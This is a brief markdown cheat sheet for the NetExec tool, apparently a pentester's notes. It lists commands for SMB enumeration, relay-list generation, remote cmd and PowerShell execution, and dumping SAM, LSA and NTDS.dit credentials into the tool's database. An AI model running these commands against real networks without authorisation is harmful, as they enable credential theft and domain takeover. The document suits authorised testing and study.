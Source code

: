 # NetExec

Similar Syntax to CME

### Find ip/hostname/SMB Signinig/etc:

```bash
netexec smb targets.txt
```

### Generate a list of SMB Signing disabled for relays

```bash
netexec smb targets.txt --gen-relay-list relay.txt
```

### Find hosts user can log into/is admin on

```bash
netexec smb targets.txt -u user -p 'password'
```

### Enumerate shares

```bash
netexec smb ip -u user -p 'password' --shares
```

### Dump SAM

```bash
netexec smb ip -u user -p 'password' --sam
```

### Dump LSA

```bash
netexec smb ip -u user -p 'password' --lsa
```

### Pass cmd

```bash
netexec smb ip -u user -p 'password' -x 'command'
```

### Pass powershell

```bash
netexec smb ip -u user -p 'password' -X 'command'
```

### List users if Guest account is enabled

```bash
netexec smb (ip) -u 'Guest' -p '' --rid-brute
```

### Look at domain admins

```bash
netexec smb ip -u user -p 'password' -x 'net group "Domain Admins" /domain'
```

### Look at logged on users

```bash
netexec smb ip -u user -p 'password' --loggedon-users
```

### Look at NTDS.dit - is LOUD - USE WITH CAUTION

```bash
netexec smb dc-ip -u domain-admin-user -p 'password' --ntds
```

## Database

### View database

```bash
nxcdb
```

### View creds grabbed via SMB

```bash
proto smb
creds
```
